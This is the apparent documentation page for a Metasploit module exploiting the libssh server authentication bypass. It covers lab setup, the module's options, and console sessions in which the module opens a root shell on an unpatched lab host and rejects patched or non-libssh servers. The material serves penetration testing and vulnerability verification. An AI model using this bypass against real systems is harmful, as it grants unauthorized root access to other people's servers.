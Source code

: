 ## Intro

This module exploits an authentication bypass in libssh server code
where a `USERAUTH_SUCCESS` message is sent in place of the expected
`USERAUTH_REQUEST` message. libssh versions 0.6.0 through 0.7.5 and
0.8.0 through 0.8.3 are vulnerable.

Note that this module's success depends on whether the server code
can trigger the correct (`shell`/`exec`) callbacks despite only the state
machine's authenticated state being set.

Therefore, you may or may not get a shell if the server requires
additional code paths to be followed.

## Setup

1. `git clone git://git.libssh.org/projects/libssh.git`
2. `cd libssh` and `git checkout libssh-0.8.3`
3. `patch -p0 < /path/to/metasploit-framework/external/source/libssh/ssh_server_fork.patch`
4. Follow the steps in `INSTALL` to build libssh
5. Run `build/examples/ssh_server_fork` (I like to `strace` it)

## Options

**CMD**

Set this to a command you want to execute in lieu of a standard shell
session. An `exec` channel request will be sent instead of a `shell`
request.

**SPAWN_PTY**

Enable this if you would like a PTY. Some server implementations may
require this. Note that you WILL be logged in `utmp`, `wtmp`, and
`lastlog` in most cases.

**CHECK_BANNER**

This is a banner check for libssh. It's not sophisticated, and the
banner may be changed, but it may prevent false positives due to how the
OOB authentication packet always returns `true`.

## Usage

Positive testing against unpatched libssh 0.8.3:

```
msf5 > use auxiliary/scanner/ssh/libssh_auth_bypass
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > set rhosts 172.28.128.3
rhosts => 172.28.128.3
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > set rport 2222
rport => 2222
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > set spawn_pty true
spawn_pty => true
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > set verbose true
verbose => true
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > run

[*] 172.28.128.3:2222 - Attempting authentication bypass
[+] 172.28.128.3:2222 - SSH-2.0-libssh_0.8.3 appears to be unpatched
[*] Command shell session 1 opened (172.28.128.1:56981 -> 172.28.128.3:2222) at 2018-10-19 12:38:24 -0500
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > sessions -1
[*] Starting interaction with 1...

# id
id
uid=0(root) gid=0(root) groups=0(root)
# uname -a
uname -a
Linux ubuntu-xenial 4.4.0-134-generic #160-Ubuntu SMP Wed Aug 15 14:58:00 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
# tty
tty
/dev/pts/1
#
```

Negative testing against patched libssh 0.8.4:

```
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > run

[*] 172.28.128.3:2222 - Attempting authentication bypass
[-] 172.28.128.3:2222 - SSH-2.0-libssh_0.8.4 appears to be patched
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) >
```

Negative testing against an insufficiently implemented libssh server:

```
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > run

[*] 172.28.128.3:2222 - Attempting authentication bypass
[+] 172.28.128.3:2222 - SSH-2.0-libssh_0.8.3 appears to be unpatched
[-] 172.28.128.3:2222 - shell/exec channel request failed
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) >
```

Negative testing against OpenSSH:

```
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > set rport 22
rport => 22
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > run

[*] 172.28.128.3:22 - Attempting authentication bypass
[-] 172.28.128.3:22 - SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.4 does not appear to be libssh
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) >
```

Confirming auth is still normally present using the OpenSSH client:

```
wvu@kharak:~$ ssh -vp 2222 -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null myuser@172.28.128.3
[snip]
debug1: Authentications that can continue: password
debug1: Next authentication method: password
myuser@172.28.128.3's password: wrongpassword
debug1: Authentications that can continue: password
Permission denied, please try again.
myuser@172.28.128.3's password: mypassword
debug1: Authentication succeeded (password).
Authenticated to 172.28.128.3 ([172.28.128.3]:2222).
[snip]
#
```

